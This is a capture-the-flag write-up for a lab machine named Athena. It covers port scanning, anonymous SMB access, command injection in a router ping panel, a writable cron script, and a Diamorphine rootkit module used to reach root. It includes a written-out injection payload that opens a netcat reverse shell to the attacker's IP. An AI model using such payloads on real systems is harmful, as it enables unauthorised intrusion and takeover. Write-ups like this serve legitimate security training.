 {% from "macros.html" import console, image, text, code, list, link, header, script, imageModal %}

{{imageModal()}}

{{header("Enumeration", "enumeration")}}

{{text("We begin with an nmap scan to identify open ports.")}}

{{console("nmap -T5 -p- -sV -sC 10.10.98.214", "Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-05 15:12 CET
Warning: 10.10.98.214 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.98.214
Host is up (0.072s latency).
Not shown: 61675 closed tcp ports (conn-refused), 3856 filtered tcp ports (no-response)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3b:c8:f8:13:e0:cb:42:60:0d:f6:4c:dc:55:d8:3b:ed (RSA)
|   256 1f:42:e1:c3:a5:17:2a:38:69:3e:9b:73:6d:cd:56:33 (ECDSA)
|_  256 7a:67:59:8d:37:c5:67:29:e8:53:e8:1e:df:b0:c7:1e (ED25519)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Athena - Gods of olympus
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-12-05T14:20:38
|_  start_date: N/A
|_clock-skew: -1s
|_nbstat: NetBIOS name: ROUTERPANEL, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 498.04 seconds
")}}

{{text("We find 4 open ports:")}}

{{list(['22 (SSH)', '80 (HTTP)', '139 (smbd)', '445 (smbd)'])}}

{{text("I firstly tried connecting to the SMB service. I was able to find a <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>public</code> share and then I accessed it. Luckly anonymous login worked. There was a text file with a message for the administrator.")}}

{{console("cat msg_for_administrator.txt", "Dear Administrator,

I would like to inform you that a new Ping system is being developed and I left the corresponding application in a specific path, which can be accessed through the following address: /myrouterpanel

Yours sincerely,

Athena
Intern")}}

{{header("Shell as www-data", "shell-as-www-data")}}

{{text("Then I visited the web page and accessed the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/myrouterpanel</code> directory.")}}

{{text("It contained a tool for pinging other devices.")}}

{{image("../../static/writeups/athena/images/000001.jpg")}}

{{text("When I entered <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>localhost</code>, the tool worked correctly and redirected me to a page with the results.")}}

{{text("I tried chaining commands but that didn't work and I got a <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>Attempted hacking!</code> error.")}}

{{text("What worked was adding a URL encoded newline character (\n) at the end of the address and adding our command after that.")}}

{{image("../../static/writeups/athena/images/000003.jpg")}}

{{text("Now we should try to get a reverse shell.")}}

{{text("We set up a listener and send a POST request using Burp with parameter <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>ip=127.0.0.1%0Anc+10.9.6.6+1234+-e+/bin/sh&submit=</code>. We should get a connection.")}}

{{header("Shell as athena", "shell-as-athena")}}

{{text("We can upgrade our shell now.")}}

{{image("../../static/writeups/athena/images/000005.jpg")}}

{{text("I ran <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>pspy64</code> on the machine and found a script that runs in the background located at <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/usr/share/backup/backup.sh</code>.")}}

{{console("cat backup.sh", "#!/bin/bash

backup_dir_zip=~/backup

mkdir -p '$backup_dir_zip'

cp -r /home/athena/notes/* '$backup_dir_zip'

zip -r '$backup_dir_zip/notes_backup.zip' '$backup_dir_zip'

rm /home/athena/backup/*.txt
rm /home/athena/backup/*.sh

echo 'Backup completed...'")}}

{{text("It's a simple script that by copying some files creates a backup. We check that it's owned by user <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>athena</code> and is writeable by our current user.")}}

{{text("We go to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>revshells.com</code> and copy a <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>nc mkfifo</code> reverse shell.")}}

{{text("We add it to the file.")}}

{{image("../../static/writeups/athena/images/000006.jpg")}}

{{text("We set up a listener and should get a reverse shell as <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>athena</code>.")}}

{{image("../../static/writeups/athena/images/000007.jpg")}}

{{header("Shell as root", "shell-as-root")}}

{{text("After upgrading our shell we check our sudo permissions.")}}

{{console("sudo -l", "Matching Defaults entries for athena on routerpanel:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User athena may run the following commands on routerpanel:
    (root) NOPASSWD: /usr/sbin/insmod /mnt/.../secret/venom.ko
")}}

{{text("Since I couldn't read this file, I downloaded it onto my machine and used <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>ghidra</code> to reverse engineer it.")}}

{{text("The functions contained <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>diamorphine</code> so I searched the internet for that.")}}

{{text("I found this page.")}}

{{link("https://github.com/m0nad/Diamorphine", "", "Diamorphine")}}

{{text("The description says that <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>Sending a signal 64(to any pid) makes the given user become root</code>.")}}

{{text("I tried sending signal 64 to a couple of processes but I couldn't become root. I analyzed the file further.")}}

{{text("I found this interesting piece of code.")}}

{{image("../../static/writeups/athena/images/000008.jpg")}}

{{text("<code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>0x39</code> in decimal is <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>57</code> so if we send signal 57 instead of 64, we should become root.")}}

{{text("We run the file as sudo and send the correct signal to any process. We should become root.")}}

{{image("../../static/writeups/athena/images/000009.jpg")}}

{{script()}}